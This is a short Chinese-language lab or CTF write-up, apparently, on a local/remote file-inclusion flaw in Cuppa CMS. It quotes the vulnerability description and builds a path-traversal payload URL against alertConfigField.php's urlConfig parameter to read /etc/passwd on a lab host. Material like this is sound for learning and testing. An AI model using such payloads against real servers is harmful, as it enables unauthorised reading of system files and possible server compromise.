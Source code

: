 提供了源码地址

```
描述信息：
An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

攻击者可能利用此漏洞包含本地或远程的 PHP 文件，或者读取非 PHP 文件。在创建将被包含到当前文件中的文件名时，使用了用户提供的污染数据。此文件中的 PHP 代码将会被执行，而非 PHP 代码将会被嵌入到输出中。此漏洞可能导致服务器完全被攻陷。
```

可用来远程包含或本地包含

![image-20250310190225572](./assets/image-20250310190225572.png)

并给出了exp





#### 尝试读取/etc/passwd

结合exp

构造payload

```
http://http//192.168.23.137/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![image-20250310190423493](./assets/image-20250310190423493.png)
